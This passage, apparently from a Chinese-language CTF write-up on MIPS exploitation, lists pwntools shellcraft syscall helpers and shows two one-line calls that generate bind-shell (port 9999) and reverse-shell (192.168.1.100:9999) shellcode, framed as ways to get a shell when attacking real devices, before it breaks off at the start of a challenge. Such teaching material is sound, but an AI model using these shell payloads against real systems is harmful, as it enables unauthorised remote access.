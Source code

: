 ```python
shellcraft.mips.linux.epoll_wait(              shellcraft.mips.linux.inotify_rm_watch(        shellcraft.mips.linux.prlimit64(               shellcraft.mips.linux.shmctl(                  shellcraft.mips.linux.vfork(
shellcraft.mips.linux.epoll_wait_old(          shellcraft.mips.linux.io_cancel(               shellcraft.mips.linux.prof(                    shellcraft.mips.linux.shmdt(                   shellcraft.mips.linux.vhangup(
shellcraft.mips.linux.eval(                    shellcraft.mips.linux.io_destroy(              shellcraft.mips.linux.profil(                  shellcraft.mips.linux.shmget(                  shellcraft.mips.linux.vm86(
shellcraft.mips.linux.eventfd(                 shellcraft.mips.linux.io_getevents(            shellcraft.mips.linux.pselect6(                shellcraft.mips.linux.shutdown(                shellcraft.mips.linux.vm86old(
shellcraft.mips.linux.eventfd2(                shellcraft.mips.linux.io_setup(                shellcraft.mips.linux.ptrace(                  shellcraft.mips.linux.sigaction(               shellcraft.mips.linux.vmsplice(
shellcraft.mips.linux.execve(                  shellcraft.mips.linux.io_submit(               shellcraft.mips.linux.putpmsg(                 shellcraft.mips.linux.sigaltstack(             shellcraft.mips.linux.vserver(
shellcraft.mips.linux.exit(                    shellcraft.mips.linux.ioctl(                   shellcraft.mips.linux.pwrite(                  shellcraft.mips.linux.signal(                  shellcraft.mips.linux.wait4(
shellcraft.mips.linux.exit_group(              shellcraft.mips.linux.iopl(                    shellcraft.mips.linux.pwrite64(                shellcraft.mips.linux.signalfd(                shellcraft.mips.linux.waitid(
shellcraft.mips.linux.faccessat(               shellcraft.mips.linux.ioprio_get(              shellcraft.mips.linux.pwritev(                 shellcraft.mips.linux.signalfd4(               shellcraft.mips.linux.waitpid(
shellcraft.mips.linux.fadvise64(               shellcraft.mips.linux.ioprio_set(              shellcraft.mips.linux.query_module(            shellcraft.mips.linux.sigpending(              shellcraft.mips.linux.write(
shellcraft.mips.linux.fadvise64_64(            shellcraft.mips.linux.ipc(                     shellcraft.mips.linux.quotactl(                shellcraft.mips.linux.sigprocmask(             shellcraft.mips.linux.writev(
>>> shellcraft.mips.linux.
```

平日我们常用的`shellcraft.mips.linux.sh()`是在漏洞目标进程的标准输入输出处获得shell，对于真实破解设备，也可以采用以下两种方式来获得shell，即正向监听本地端口和反向连接目标端口：

```python
shellcraft.mips.linux.bindsh(9999)
shellcraft.mips.linux.connect('192.168.1.100',9999)+shellcraft.mips.linux.dupsh()
```

OK，准备工作就绪，开始看题

## 入营赛题

附件：[Mplogin.zip](https://xuanxuanblingbling.github.io/assets/attachment/mips/Mplogin.zip)

### 检查
